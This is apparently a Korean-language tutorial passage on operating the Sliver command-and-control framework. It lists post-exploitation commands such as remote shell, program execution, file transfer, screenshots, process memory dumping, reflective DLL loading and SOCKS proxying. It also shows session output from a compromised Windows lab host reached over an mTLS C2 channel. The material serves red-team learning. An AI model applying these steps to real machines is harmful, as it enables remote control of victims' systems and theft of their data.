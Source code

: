 ### Session 사용
`use` 명령어를 이용하여, 활성화된 세션이나 비콘을 선택한다.  
핵심 명령어:
- `shell` : 인터랙티브 셸 실행
- `execute`: 원격에서 프로그램 실행
- `upload` / `download`: 파일 전송
- `screenshot`: 화면 캡처
- `procdump`: 프로세스 메모리 덤프
- `sideload` / `spawndll`: DLL 로드 / reflective 로딩
- `portfwd` / `rportfwd` / `socks5`: 네트워크 포워징, 프록시
- `reconfig` / `interactive` / `background`: 동적 설정 관리
  
```bash
sliver > use

? Select a session or beacon: SESSION  f8c93e97  ASSISTANT_SURROUND  192.168.0.174:52616  DESKTOP-DIE7A63  DESKTOP-DIE7A63\user  windows/amd64
[*] Active session ASSISTANT_SURROUND (f8c93e97-df00-4010-b758-f1e79720933a)

sliver (ASSISTANT_SURROUND) > info

        Session ID: f8c93e97-df00-4010-b758-f1e79720933a
              Name: ASSISTANT_SURROUND
          Hostname: DESKTOP-DIE7A63
              UUID: 95604d56-738b-cd06-d4cd-34184480e52e
          Username: DESKTOP-DIE7A63\user
               UID: S-1-5-21-76215697-3573545289-4026730203-1001
               GID: S-1-5-21-76215697-3573545289-4026730203-513
               PID: 12080
                OS: windows
           Version: 10 build 22631 x86_64
            Locale: en-GB
              Arch: amd64
         Active C2: mtls://192.168.0.197:8888
    Remote Address: 192.168.0.174:52616
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Wed Sep 22 09:49:59 EDT 2025 (1m13s ago)
      Last Checkin: Wed Sep 22 09:49:59 EDT 2025 (1m13s ago)
```

### 백그라운드 실행과 세션 제거
해당 세션에서 작업이 끝나면 `background`를 실행한다.  
```bash
sliver (ASSISTANT_SURROUND) > background

[*] Background ...

sliver >  
```

세션을 제거하고 싶다면, `sessions -k <ID>`를 실행한다.
```bash
sliver > sessions

 ID         Transport   Remote Address        Hostname          Username    Operating System   Health  
========== =========== ===================== ================= =========== ================== =========
 f8c93e97   mtls        192.168.0.174:52616   DESKTOP-DIE7A63   user        windows/amd64      [ALIVE]                                                                                              

sliver > sessions -k f8c93e97

```